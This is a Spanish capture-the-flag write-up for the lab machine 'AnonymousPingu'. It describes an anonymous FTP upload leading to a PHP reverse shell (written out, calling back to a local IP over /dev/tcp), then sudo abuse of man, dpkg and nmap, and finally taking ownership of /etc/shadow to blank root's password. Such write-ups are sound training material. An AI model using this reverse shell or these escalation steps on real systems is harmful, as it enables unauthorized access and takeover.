 ```yaml
---
description: '🧠Dificultad: Fácil | 🔓31/08/2025'
---
```


# AnonymousPingu

## 🕵️ Reconocimiento

El escaneo de puertos nos dice que hay un servicio FTP con login anónimo, y un servicio HTTP :

<figure><img src="../../.gitbook/assets/image (37).png" alt=""><figcaption></figcaption></figure>

En el servicio FTP se encuentran los archivos utilizados para el servicio web. La carpeta `upload` está habilitada para subir contenido. Además, si accedemos a este directorio desde el servicio web, nos encontramos con un `directory listing`.

<div align="left"><figure><img src="../../.gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure></div>

## 🚪 Ganando acceso

Probamos a subir una reverse shell en PHP a la carpeta `upload` por FTP.

```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/172.17.0.1/4444 0>&1'"); ?>
```

<figure><img src="../../.gitbook/assets/image (39).png" alt=""><figcaption></figcaption></figure>

## 💥 Escalando privilegios

Si comprobamos los permisos que tenemos con `sudo`, vemos que podemos ejecutar el binario `man` como `pingu` sin necesidad de contraseña.

<figure><img src="../../.gitbook/assets/image (31).png" alt=""><figcaption></figcaption></figure>

En [gtfobins](https://gtfobins.github.io/gtfobins/man/) vemos que podemos explotar esta configuración para obtener una shell con el usuario `pingu`. Antes de mostrar la explotación de esta configuración, cabe destacar que es necesario mejorar la shell con los siguientes comandos:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
# Suspendemos la terminal con CTRL + Z
stty raw -echo; fg
reset
```

<figure><img src="../../.gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>

Del mismo modo, con `sudo -l` vemos que podemos ejecutar el binario `dpkg` y `nmap` como `gladys` sin contraseña. Usamos el exploit de gtfobins:

<figure><img src="../../.gitbook/assets/image (33).png" alt=""><figcaption></figcaption></figure>

Una vez dentro como gladys, vemos de nuevo que tenemos permisos para ejecutar como `root` el binario `chown` . Esto nos hace poder cambiar el propietario y grupo del fichero que queramos. Si nos hacemos dueños del fichero `/etc/shadow`, podemos mirar posibles contraseñas o escribirlas:

<figure><img src="../../.gitbook/assets/image (34).png" alt=""><figcaption></figcaption></figure>

Modificando el fichero, podemos dejar sin contraseña al usuario `root`.

<div align="left"><figure><img src="../../.gitbook/assets/image (36).png" alt=""><figcaption></figcaption></figure></div>
